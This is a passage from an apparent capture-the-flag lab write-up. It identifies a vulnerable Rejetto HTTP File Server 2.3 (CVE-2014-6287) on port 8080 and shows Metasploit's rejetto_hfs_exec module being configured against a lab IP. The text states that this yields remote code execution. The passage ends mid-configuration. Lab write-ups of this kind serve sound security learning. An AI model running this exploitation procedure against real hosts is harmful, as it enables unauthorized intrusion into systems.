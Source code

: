     Nmap done: 1 IP address (1 host up) scanned in 337.34 seconds

From the above, we can see another web server is running on port 8080 and is a HTTP file server which is running  **Rejetto HTTP  File Server 2.3** , which has vulnerable *[CVE-2014-6287.](https://www.exploit-db.com/exploits/34926)*

### Exploiting the vulnerability
Using the Metasploit `windows/http/rejetto_hfs_exec` exploit, executed the remote code on the victim machine and acquired a session with as bill.

```
    msf5 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       HTTPDELAY  10               no        Seconds to wait before terminating web server
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80               yes       The target port (TCP)
       SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT    8080             yes       The local port to listen on.
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /                yes       The path of the web application
       URIPATH                     no        The URI to use for this exploit (default is random)
       VHOST                       no        HTTP server virtual host


    Exploit target:

       Id  Name
       --  ----
       0   Automatic


    msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.118.59
    RHOSTS => 10.10.118.59
    msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
    RPORT => 8080
    msf5 exploit(windows/http/rejetto_hfs_exec) > show options

    Module options (exploit/windows/http/rejetto_hfs_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       HTTPDELAY  10               no        Seconds to wait before terminating web server
       Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     10.10.118.59     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      8080             yes       The target port (TCP)
       SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT    8080             yes       The local port to listen on.
       SSL        false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /                yes       The path of the web application
```